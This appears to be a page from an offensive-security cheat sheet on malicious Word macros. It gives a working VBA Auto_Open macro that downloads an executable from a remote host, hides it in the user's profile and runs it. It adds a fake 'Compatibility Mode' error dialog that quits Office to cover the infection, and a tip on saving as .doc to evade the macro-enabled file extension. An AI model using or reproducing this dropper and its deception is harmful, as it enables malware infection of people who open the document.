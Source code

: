 # Macros

## Tips

* Save Word document as "Word 97-2004 Document .doc" to not have to use the "Word Macro-Enabled Document \(.docm\)

## Simple Download / Exec

```vbnet
Sub Auto_Open()

Const ADTYPEBINARY = 1
Const ADSAVECREATEOVERWRITE = 2

Dim xHttp
Dim bStrm
Dim filename

Set xHttp = CreateObject("Microsoft.XMLHTTP")
xHttp.Open "GET", "https://.../payload.exe", False
xHttp.Send

Set gobjBinaryOutputStream = CreateObject("Adodb.Stream")

filename = Environ("USERPROFILE") & "\" & DateDiff("s", #1/1/1970#, Now())

gobjBinaryOutputStream.Type = ADTYPEBINARY
gobjBinaryOutputStream.Open
gobjBinaryOutputStream.write xHttp.responseBody
gobjBinaryOutputStream.savetofile filename, ADSAVECREATEOVERWRITE

SetAttr filename, vbReadOnly + vbHidden + vbSystem
Shell (filename)

End Sub
```

Inspired by [https://gist.github.com/nopslider/0d48760928642ca190ed](https://gist.github.com/nopslider/0d48760928642ca190ed)

## Print dummy error message and quit

```text
Dim title As String
title = "Microsoft Office (Compatibility Mode)"
Dim msg As String
Dim intResponse As Integer
msg = "This application appears to have been made with an older version of the Microsoft Office product suite. Please have the author save this document to a newer and supported format. [Error Code: -219]"
intResponse = MsgBox(msg, 16, title)
Application.Quit
```

Source: [Unicorn](unicorn.md)

